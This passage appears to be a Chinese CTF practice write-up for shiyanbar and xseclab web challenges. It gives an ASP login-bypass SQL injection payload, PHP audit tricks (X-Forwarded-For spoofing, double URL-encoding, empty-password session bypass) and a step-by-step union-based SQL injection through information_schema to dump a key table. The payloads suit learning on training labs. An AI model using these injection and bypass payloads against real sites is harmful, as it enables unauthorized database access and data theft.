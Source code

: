 ### 1. 代码审计

#### asp代码审计：

1. [http://ctf8.shiyanbar.com/aspaudit/ ][17]

	长度限制:F12删maxlength，或者改长度，本地代理都可以绕过
//Username：  'union  select 1,1,1 from bdmin '  ，为什么是三列呢，一般表中都会设置id，加上账号密码就3个了，不行就猜4列咯...，因为union的之前的用户名为空，所以前面的结果集为空，所以最后的结果集只有我们后面的1,1,1了，所以在密码那输入1就是密码。
 
这样也行，反正就闭合标签   'union  select 1,1,1 from bdmin where '1'='1

#### php代码审计

1. [http://ctf8.shiyanbar.com/phpaudit/ ][18]//其实这个就是修改http请求头的X-Forwarded-For
2. [http://ctf1.shiyanbar.com/web/4/index.php][19] //跟下面的后台登陆型第一个一样，请看下面的后台登陆型第一个
3. [http://ctf5.shiyanbar.com/DUTCTF/index.php][20] //二次urlencode
4. [http://ctf1.shiyanbar.com/web/5/index.php ][21]//请看后台登陆型第二个
5. [http://ctf4.shiyanbar.com/web/false.php][22] //数组的哈希值，都是null
6. [http://ctf4.shiyanbar.com/web/Session.php][23] //只需要在第一次提交的时候直接提交password=即可，因为第一次访问时服务器那边也没设置对应的$\_SESSION['password']()，由于是==比较，两者是相等的。

7. 表单隐藏 [http://ctf10.shiyanbar.com:8888/main.php][25]

------

## 3. sql注入

简单的直接上工具就ko了，如sqlmap，等-——10大sql注入工具

如下面几个：

1. [http://ctf5.shiyanbar.com:8080/9/asp.asp][26]

2. [http://ctf5.shiyanbar.com/8/index.php?id=1][27]
	当然不用and XX也是可以的，下面只是举个例子
	
	```
	//手工注入过程  
	 //判断注入类型为and布尔型注入  
	 http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=1  
	 http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2  
	 //判断字段数  
	 http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%203  
	 http://ctf5.shiyanbar.com/8/index.php?id=1%20order%20by%202  
	 //获取数据库基本信息(//concat\_ws是字符串连接函数，其中第一个参数是分隔符，CHAR(58)是冒号，因为冒号的ASCII是58)  
	 http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,concat\_ws(CHAR(58),user(),database(),version())   
	//获取数据库中的表,其中table\_schema可以理解为数据库吧(他是mysql系统表里面的一个字段，这里我们用16进制表示，就是上一句查询到的数据库)  
	http://ctf5.shiyanbar.com/8/index.php?id=1%20and%201=2%20union%20select%201,table\_name%20from%20information\_schema.tables%20where%20table\_schema=0x6d795f6462  
	//获取重要表的字段  
	http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,column\_name from information\_schema.columns where table\_name=0x746869736b6579  
	//获取表中的内容  
	http://ctf5.shiyanbar.com/8/index.php?id=1 and 1=2 union select 1,k0y from thiskey  
	

[1]:	http://lab1.xseclab.com/base1_4a4d993ed7bd7d467b27af52d2aaa800/index.php
[2]:	http://lab1.xseclab.com/base66082c908819e105c378eb93b6631c4d3/index.php
[3]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[4]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[5]:	http://lab1.xseclab.com/base1%5C_0ef337f3afbe42d5619d7a36c19c20ab/index.php
[6]:	http://lab1.xseclab.com/base7%5C_eb68bd2f0d762faf70c89799b3c1cc52/index.php
[7]:	http://ctf1.shiyanbar.com/basic/catch/
[8]:	http://lab1.xseclab.com/base8%5C_0abd63aa54bef0464289d6a42465f354/index.php
[9]:	http://lab1.xseclab.com/base10%5C_0b4e4866096913ac9c3a2272dde27215/index.php
[10]:	http://lab1.xseclab.com/xss1%5C_30ac8668cd453e7e387c76b132b140bb/index.php
[11]:	http://ctf1.shiyanbar.com/basic/js/index.asp
[12]:	http://lab1.xseclab.com/base12%5C_44f0d8a96eed21afdc4823a0bf1a316b/index.php
[13]:	http://ctf5.shiyanbar.com/DUTCTF/1.html
[14]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[15]:	http://lab1.xseclab.com/realxss1%5C_f123c17dd9c363334670101779193998/index.php
[16]:	http://lab1.xseclab.com/realxss3%5C_9b28b0ff93d0b0099f5ac7f8bad3f368/index.php
[17]:	http://ctf8.shiyanbar.com/aspaudit/
[18]:	http://ctf8.shiyanbar.com/phpaudit/
[19]:	http://ctf1.shiyanbar.com/web/4/index.php
[20]:	http://ctf5.shiyanbar.com/DUTCTF/index.php
[21]:	http://ctf1.shiyanbar.com/web/5/index.php
[22]:	http://ctf4.shiyanbar.com/web/false.php
[23]:	http://ctf4.shiyanbar.com/web/Session.php
[25]:	http://ctf4.shiyanbar.com/web/Session.php
[26]:	http://ctf5.shiyanbar.com:8080/9/asp.asp
[27]:	http://ctf5.shiyanbar.com/8/index.php?id=1
[28]:	http://lab1.xseclab.com/sqli2%5C_3265b4852c13383560327d1c31550b60/index.php
[29]:	http://lab1.xseclab.com/sqli3%5C_6590b07a0a39c8c27932b92b0e151456/index.php
[30]:	http://lab1.xseclab.com/sqli4%5C_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1
[31]:	http://lab1.xseclab.com/sqli5%5C_5ba0bba6a6d1b30b956843f757889552/index.php?start=0&num=1
[32]:	http://ctf4.shiyanbar.com/web/10.php
[35]:	http://ctf4.shiyanbar.com/web/10.php